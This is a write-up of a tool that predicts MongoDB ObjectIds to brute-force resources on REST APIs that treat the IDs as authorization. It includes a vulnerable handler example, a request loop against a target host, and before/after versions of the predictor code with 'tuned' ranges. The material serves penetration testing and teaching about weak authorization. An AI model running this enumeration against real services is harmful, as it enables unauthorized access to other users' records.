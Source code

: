 ## Mongo ObjectId introduction

[Mongo ObjectId](https://docs.mongodb.com/manual/reference/method/ObjectId/)s are generated
in a predictable manner, the 12-byte ObjectId value consists of:

- a 4-byte value representing the seconds since the Unix epoch,
- a 3-byte machine identifier,
- a 2-byte process id, and
- a 3-byte counter, starting with a random value.

Some web and REST APIs use these as resource IDs, and because developers believe they
are randomly generated or difficult to guess, they are also frequently used as (a very
weak) authorization layer: if you know the ObjectId then you have to be the right
user.

A potentially vulnerable REST API will look like this:

```http
GET /pet/5ae9b90a2c144b9def01ec37 HTTP/1.1
Host: vulnerable.com
X-API-Key: ...
```

And the code that handles that request (notice the lack of authorization):

```python
@route('/pet/{id}')
@is_authenticated
def handle_get_pet(id):
    return PetFromMongoORM.get(id)
```

## Predicting Mongo ObjectIds

The tool I created will predict Mongo ObjectIds given a valid initial value:

```
./mongo-objectid-predict 5ae9b90a2c144b9def01ec37
...
5ae9bac82c144b9def01ec39
...
5ae9bacf2c144b9def01ec3a
...
5ae9bada2c144b9def01ec3b
```

Usually you'll use this tool together with Burp, or your own custom script in
order to brute-force a resource:

```python
import requests

from mongo_objectid_predict import predict

for objectid in predict('5ae9b90a2c144b9def01ec37'):
    response = requests.get('http://target.com/resource/%s' % objectid)
    process_response(response)
```

## Controlling the prediction process

There are two command line parameters which will control how many potential mongo
ObjectIds are generated: `--counter-diff` and `--per-counter`.

Counter diff will control the iteration over the last 3 bytes (the counter) of the
ObjectId. So, if the last 3 bytes from the base ObjectId were `000020`, you can control
how much to increment or decrement this value using `--counter-diff`. By default we set
it to `20`.

Per counter will control the first 4 bytes of the ObjectId: the epoch time. For each
newly generated counter (last 3 bytes) the tool will generate N `--per-counter` epoch
times.

It is important to know that ObjectIds are generated for all MongoDB tables: the counter
will be incremented for objects which are not the one queried by the application. This
means that depending on the way the application was developed, its load, etc. you might
need to play with `--counter-diff` and `--per-counter` until something interesting is
found.

The last parameter you can use is `--backward`. Instead of adding to the counter the tool
will decrease it. The same thing happens with the epoch counter.

## Improvements

This tool should work on simple MongoDB installations, where no clusters are used (machine
identifier remains constant) and the MongoDB hasn't been restarted (process ID remains
constant).

For other scenarios prediction is still possible, but requires more requests and potentially
[a different algorithm](https://github.com/andresriancho/mongo-objectid-predict/issues/1)
which receives more samples, analyzes them and then starts producing ObjectIds for that
specific installation.

# Tuning for "아니 근데 오늘 진짜" mongo objectid predict

Before predict.py code

```python
import operator

from .object_id import ObjectId


def predict(base, backward=False, counter_diff=20, per_counter=60):
    """
    :param base: The base object ID

    :param backward: True if we should predict object IDs which were created before the base.

    :param counter_diff: How many +1 or -1 do we want to try to brute-force in the 3-byte
                         counter?

    :param per_counter: The ObjectId has a counter which auto-increments (+1)
                        on each object creation. For each counter that we increment
                        or decrement (depending on forward parameter) this parameter
                        determines how many seconds we have to add or substract to
                        the epoch.

    :yield: Object ids
    """
    looks_like, reason = ObjectId.looks_like(base)
    if not looks_like:
        raise Exception(reason)

    base = ObjectId(base)
    oper = {False: operator.add, True: operator.sub}.get(backward)

    for counter_iter in xrange(1, counter_diff):
        for epoch_iter in xrange(per_counter):
            copy = base.copy()

            copy.counter = oper(copy.counter, counter_iter)
            copy.epoch = oper(copy.epoch, epoch_iter)

            yield str(copy)
```

After predict.py code

```python
import operator

from .object_id import ObjectId


def predict(base, backward=False, counter_diff=20, per_counter=60):
    """
    :param base: The base object ID

    :param backward: True if we should predict object IDs which were created before the base.

    :param counter_diff: How many +1 or -1 do we want to try to brute-force in the 3-byte
                         counter?

    :param per_counter: The ObjectId has a counter which auto-increments (+1)
                        on each object creation. For each counter that we increment
                        or decrement (depending on forward parameter) this parameter
                        determines how many seconds we have to add or substract to
                        the epoch.

    :yield: Object ids
    """
    # looks_like, reason = ObjectId.looks_like(base)
    # if not looks_like:
    #     raise Exception(reason)

    # base = ObjectId(base)
    # oper = {False: operator.add, True: operator.sub}.get(backward)

    # for counter_iter in range(1, counter_diff):
    #     for epoch_iter in range(per_counter):
    #         copy = base.copy()

    #         copy.counter = oper(copy.counter, counter_iter)
    #         copy.epoch = oper(copy.epoch, epoch_iter)

    #         yield str(copy)
    looks_like, reason = ObjectId.looks_like(base)
    if not looks_like:
        raise Exception(reason)

    base = ObjectId(base)

    # Loop through all combinations of changing the last 3 digits of the timestamp
    for timestamp_variation in range(4096):  # 16^3 = 4096
        modified_timestamp = base.epoch + timestamp_variation

        # Loop through all combinations of changing the last digit of the counter
        # copy_base_counter = base.counter
        for counter_variation in range(16):  # 16^1 = 16
            modified_counter = base.counter + counter_variation

            # Yield the modified ObjectId
            yield str(ObjectId("%08x%s%s%06x" % (modified_timestamp, base.machine, base.process, modified_counter)))
```
